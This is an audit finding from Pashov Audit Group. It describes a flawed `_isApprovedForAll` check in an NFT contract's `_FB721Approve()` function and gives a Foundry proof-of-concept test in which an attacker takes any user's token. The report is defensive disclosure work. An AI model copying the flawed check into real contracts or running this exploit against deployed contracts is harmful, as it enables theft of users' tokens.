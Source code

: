 **Auditor**

[Pashov Audit Group](https://twitter.com/PashovAuditGrp)

# Findings

## High Risk

### [C-01] NFT stolen due to wrong approval validation (Project self-injected exploit)

**Severity**

**Impact:** High

**Likelihood:** High

**Description**

When calling `approve()`, some checks are performed under the hood via `_FB721Approve()` to validate approval permissions.

Note that the check regarding `_isApprovedForAll` is flawed. It can be bypassed for any `id` if the caller approved a spender previously.

```solidity
    function _FB721Approve(address spender_, uint256 id_, address msgSender_) internal virtual {
        address _owner = _chunkToOwners[id_].owner;

        require(
            _owner == msgSender_ || // the owner of the token is the msg.sender
@>          _isApprovedForAll[msgSender_][spender_], // the msg.sender is an approved operator
            "NOT_AUTHORIZED"
        );

        _getApproved[id_] = spender_;
        require(NFT.emitApproval(_owner, spender_, id_));
    }
```

**Proof of Concept**

This test shows how anyone can steal any token from any user.

- Add the test to `test/SFT418V2_ERC721.t.sol`
- Run `forge test --mt "testApproveVulnerability"`

```solidity
function testApproveVulnerability() public {
    address victim = address(0xABCD);
    address attacker = address(666);

    pToken.mint(victim, 1337);
    assertEq(pToken.ownerOf(1337), victim);

    hevm.startPrank(attacker);
    pToken.setApprovalForAll(attacker, true);
    pToken.approve(attacker, 1337); // @audit vulnerable function
    pToken.transferFrom(victim, attacker, 1337);
    hevm.stopPrank();

    assertEq(pToken.ownerOf(1337), attacker);
}
```
